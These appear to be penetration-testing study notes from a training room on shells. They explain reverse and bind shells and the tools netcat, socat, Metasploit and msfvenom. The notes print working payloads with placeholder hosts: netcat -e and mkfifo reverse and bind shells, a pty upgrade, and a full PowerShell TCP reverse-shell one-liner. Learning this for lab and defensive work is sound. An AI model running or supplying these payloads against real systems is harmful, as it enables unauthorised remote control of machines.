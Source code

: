 A shell is software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface, and this will depend on the operating system running on the target system.  
In cyber security, it commonly refers to a specific shell session an attacker uses when accessing a compromised system, allowing them to run commands and execute software. This will allow attackers to execute several activities, some of which are described below.

- **Remote System Control**: allows the attacker to execute commands or software remotely in the target system.
- **Privilege Escalation**
- **Data Exfiltration**
- **Persistence and Maintenance Access**
- **Post-Exploitation Activities**
- **Access Other Systems on the Network** This is also known as pivoting.
There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:
### Netcat
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.
### Socat
Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
### Metasploit -- multi/handler
The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads
### Msfvenom
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room.

### Other useful links
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://github.com/danielmiessler/SecLists)

## Types of Shells
### Reverse Shell
Are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools to set up a listener which is used to receive the connection. Reverse shells are a good way to bypass firewall rules, but the drawback is that, you need to configure your network to receive a shell across the internet.
On the attacking machine: `sudo nc -lvnp 443`
On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`
### Bind Shell
Are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
On the target: `nc -lvnp <port> -e "cmd.exe"`
On the attacking machine: `nc MACHINE_IP <port>`

### Interactive vs Non-Interactive
#### Interactive
These allow you to interact with programs after executing them. For example, the SSH login prompt.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
### Non-Interactive
In a non=interactive shell you are limited to using programs which do not require  user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive.

# Shell Payloads
`netcat-traditional` there is no `-e` option which allows you to execute a process on connection.
On linux we can use this code to create a listener for a bind shell:
`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f`

The command first creates a _[named pipe](https://www.linuxjournal.com/article/2156)_ at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat connects the input of the listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr ouput steam into stdout, and sending stout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

